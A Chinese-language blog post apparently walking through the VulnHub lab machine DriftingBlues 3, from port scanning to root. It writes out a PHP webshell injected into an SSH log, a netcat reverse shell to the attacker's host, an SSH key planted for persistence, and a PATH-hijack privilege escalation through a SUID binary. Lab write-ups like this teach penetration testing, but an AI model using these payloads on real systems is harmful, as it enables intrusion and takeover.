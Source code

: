 ```yaml
---
layout:     post
title:      "vulnhub_DriftingBlues_3"
subtitle:   信息搜集/php脚本解析getshell/错误配置的二进制文件提权
date:       2024-6-11
author:     Robin
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - Note
    - Linux
    - Information security
    - vulnhub
---
```

# 靶机 DriftingBlues：3

## 1. 获取靶机

![]({{ "assets/2024-06-11-15-30-44-image.png" | absolute_url }})

靶机导入到virtualbox，采用桥接网卡模式，攻击机上使用`arp-scan` 探测到靶机mac对应的ip

![]({{ "assets/2024-06-11-15-31-27-image.png" | absolute_url }})

## 2. 信息搜集

### 2.1 端口扫描

`nmap -A -sV -T4 -p- 10.1.1.36`

全端口高级扫描，发现了22和80端口开放

![]({{ "assets/2024-06-11-15-32-25-image.png" | absolute_url }})

### 2.2 探索获取的端口服务

nmap扫描提示80端口有可疑路径信息，用`dirsearch` 对web路径进行爆破，发现更多路径

![]({{ "assets/2024-06-11-15-34-53-image.png" | absolute_url }})

扫描出来的路径文件中，大部分信息无明显有效敏感信息，但是在`/robots.txt` 找到一个隐藏路径`/eventadmins`，打开后有提示一个新路径`/littlequeenofspades.html`

![]({{ "assets/2024-06-11-15-37-52-image.png" | absolute_url }})

![]({{ "assets/2024-06-11-15-38-13-image.png" | absolute_url }})

打开信息提示页面后，有一段故事，页面无其他信息，但是html源代码中隐藏了一段base64编码

![]({{ "assets/2024-06-11-15-42-01-image.png" | absolute_url }})

用CyberChef对base64进行解密，发现其中有两段密文

第一段：![]({{ "assets/2024-06-11-15-53-30-image.png" | absolute_url }})

其中第二段：![]({{ "assets/2024-06-11-15-53-57-image.png" | absolute_url }})



访问第二段的路径，发现一个ssh登录日志的查看页面：

![]({{ "assets/2024-06-11-15-55-37-image.png" | absolute_url }})

## 3. 渗透测试

### 3.1 利用登录日志查看页面植入代码

尝试将登录用户名替换为php的webshell

`'<?php system($_GET["x"]); ?>'` ，必须带引号，否则日志文件解析失败

![]({{ "assets/2024-06-11-15-59-35-image.png" | absolute_url }})

### 3.2 成功获得执行命令权限

访问页面，指定`x` 参数为系统命令，在日志页面看到执行的返回结果

![]({{ "assets/2024-06-11-16-01-47-image.png" | absolute_url }})

### 3.3 反弹shell到攻击机

调用`netcat` 反弹shell到攻击机，但用户是`www-data`

`netcat 10.1.1.102 32201 -e /bin/bash`

![]({{ "assets/2024-06-11-16-13-45-image.png" | absolute_url }})

将反弹shell转换为tty交互shell

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

### 3.4 继续用获得的shell进行信息搜集

#### 3.4.1 找到一个用户目录robertj

![]({{ "assets/2024-06-11-16-37-52-image.png" | absolute_url }})

#### 3.4.2 为用户生成密钥获得登录

`ssh-keygen -t rsa` 生成过程中指定路径为robertj的.ssh目录

将生成的id_rsa.pub加入到当前目录的authorized_keys文件

![]({{ "assets/2024-06-11-16-45-46-image.png" | absolute_url }})

将私钥复制到攻击机，用ssh带密钥文件登录成功

`ssh robertj@10.1.1.36 -i id_rsa`

![]({{ "assets/2024-06-11-16-48-35-image.png" | absolute_url }})

### 3.5 在当前用户目录下获取flag1

![]({{ "assets/2024-06-11-16-49-47-image.png" | absolute_url }})

### 3.6 继续用当前用户搜集信息

#### 3.6.1 找到制执行权限配置不当的文件

利用`find` 命令寻找当前用户可执行，且执行身份为root的可执行文件

`find / -perm -u=s -type f 2>/dev/null`

找到一个不常见的`/usr/bin/getinfo` 二进制文件

![]({{ "assets/2024-06-11-18-27-31-image.png" | absolute_url }})

#### 3.6.2 调查二进制文件，疑似执行系统命令

![]({{ "assets/2024-06-11-18-29-48-image.png" | absolute_url }})

查看文件内容，疑似执行系统命令来显示信息

![]({{ "assets/2024-06-11-18-30-48-image.png" | absolute_url }})

### 3.7 尝试替换程序调用的系统命令进行提权

通过前面的执行结果，判断程序调用了系统的`ip` 命令，于是尝试用自己的脚本替换掉系统命令`ip` 但是由于`/usr/bin` 不可写，因此尝试修改系统的路径搜索顺序，直接执行自己创建的`ip` 命令

![]({{ "assets/2024-06-11-18-52-30-image.png" | absolute_url }})

再执行`/usr/bin/getinfo` ，获得root权限的shell，

![]({{ "assets/2024-06-11-18-55-12-image.png" | absolute_url }})

*如果ip命令的搜索顺序没有替换成当前路径下的ip脚本，尝试用`hash -r` 来刷新系统维护的命令路径hash表*

### 3.8 在root目录下获得flag2

渗透测试完成

![]({{ "assets/2024-06-11-18-55-55-image.png" | absolute_url }})
